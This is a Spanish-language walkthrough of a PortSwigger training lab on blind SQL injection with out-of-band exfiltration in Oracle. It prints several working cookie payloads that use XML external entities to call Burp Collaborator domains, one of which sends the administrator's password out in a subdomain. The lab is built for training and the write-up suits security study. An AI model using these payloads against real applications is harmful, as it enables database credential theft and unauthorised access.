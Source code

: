 ```yaml
---
title: SQLI Lab 17
date: 2025-02-12 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - SQLI
tags:
  - SQLI (Out Of Band)
  - Blind SQL injection with out-of-band data exfiltration
  - Oracle Database
image:
  path: /assets/img/SQLI-Lab-17/Portswigger.png
---
```


## Skills

- Blind SQL injection with out-of-band data exfiltration

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este laboratorio contiene una `Blind SQL Inyection`, la aplicación utiliza una `cookie` de seguimiento para análisis y realiza una `consulta SQL` que incluye el valor de la cookie enviada. La `consulta SQL` se ejecuta de forma asíncrona y no afecta la respuesta de la aplicación. Sin embargo, puedes `desencadenar` interacciones `out-of-band` con un `dominio externo`. La `base` de `datos` contiene una `tabla` diferente llamada `users`, con columnas llamadas `username` y `password`. Hay que `explotar` la `Blind SQL Inyection` para descubrir la `contraseña` del usuario `administrador` e iniciar sesión como el usuario administrador

---
## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/SQLI-Lab-17/image_1.png)

Si `capturamos` la `petición` a la web con `Burpsuite` vemos un campo llamado `TrackingId`, probando los `payload` de [https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet). En este caso vamos a usar este `payload`

```
Cookie: TrackingId=3PXv4G829apHPMFP'||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual)-- - 
```

Antes de `enviar` la `petición` debemos hacer `click` en `Collaborator > Copy to clipboard`. El subdominio copiado lo `sustituimos` por el campo `BURP-COLLABORATOR-SUBDOMAIN`

```
Cookie: TrackingId=3PXv4G829apHPMFP'||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://ek2f0ugba257uzxtntvmsb5twk2bq2er.oastify.com/"> %remote;]>'),'/l') FROM dual)-- - ; session=Wzj5q2TCt35NSwZENA7h1HRazosSb9fS
```

Una vez hecho esto debemos `urlencodear` el `payload` y `enviar` la `petición`

```
Cookie: TrackingId=3PXv4G829apHPMFP'||(SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//ek2f0ugba257uzxtntvmsb5twk2bq2er.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual)--+-+; session=Wzj5q2TCt35NSwZENA7h1HRazosSb9fS
```

Si nos dirigimos a la parte de `Collaborator` y pulsamos en `Poll now` nos llegarán las `peticiones` a nuestro servidor

![](/assets/img/SQLI-Lab-17/image_2.png)

Una vez `comprobada` la `vulnerabilidad` vamos a usar este `payload` para poder hacer consultas a la `base` de `datos`

```
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```

Adaptamos el `payload` y lo `enviamos`

```
Cookie: TrackingId=3PXv4G829apHPMFP'||(SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(select+username+from+users+where+username='administrator')||'.dyfeetuao1j68ybs1s9l6ajsajga44st.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual)--+-+; session=Wzj5q2TCt35NSwZENA7h1HRazosSb9fS
```

Si nos dirigimos a la parte de `Collaborator` y pulsamos en `Poll now`, vemos que como subdominio se está enviando el `output` de la `query`

![](/assets/img/SQLI-Lab-17/image_3.png)

`Enviamos` el siguiente `payload` para `obtener` la `contraseña` del usuario `administrador`

```
Cookie: TrackingId=3PXv4G829apHPMFP'||(SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(select+password+from+users+where+username='administrator')||'.dyfeetuao1j68ybs1s9l6ajsajga44st.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual)--+-+; session=Wzj5q2TCt35NSwZENA7h1HRazosSb9fS
```

`Obtenemos` la `contraseña` del usuario `administrador`

![](/assets/img/SQLI-Lab-17/image_4.png)

Nos `logueamos` como usuario `administrador`

![](/assets/img/SQLI-Lab-17/image_5.png)
